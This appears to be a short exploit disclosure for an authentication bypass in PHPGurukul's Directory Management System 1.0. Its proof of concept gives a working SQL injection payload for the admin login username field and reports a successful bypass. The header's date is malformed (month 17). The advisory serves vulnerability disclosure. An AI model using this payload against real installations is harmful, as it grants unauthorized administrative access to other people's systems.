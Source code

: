 # Directory Management System - Authentication Bypass
+ **Exploit Title:** Directory Management System - Authentication Bypass
+ **Date:** 2024-17-04
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://phpgurukul.com/directory-management-system-using-php-and-mysql/
+ **Software Link:** https://phpgurukul.com/?sdm_process_download=1&download_id=9346
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
Directory Management System allows Authentication Bypass via the `username` and `password` parameters at "http://localhost/dms/admin/index.php". 

## Proof of Concept:
+ Go to this address: "http://localhost/dms/admin/index.php".
+ username : `'or 1=1-- -` password : `1`  and log in
+ Authentication Bypass Successful !

![Ekran görüntüsü 2024-05-19 174334](https://github.com/BurakSevben/CVEs/assets/117217689/baff2614-c955-4523-92d7-4979bd5ee8a9)

![Ekran görüntüsü 2024-05-19 174401](https://github.com/BurakSevben/CVEs/assets/117217689/3b493e54-6d2b-4404-90ea-2076d7c25d89)

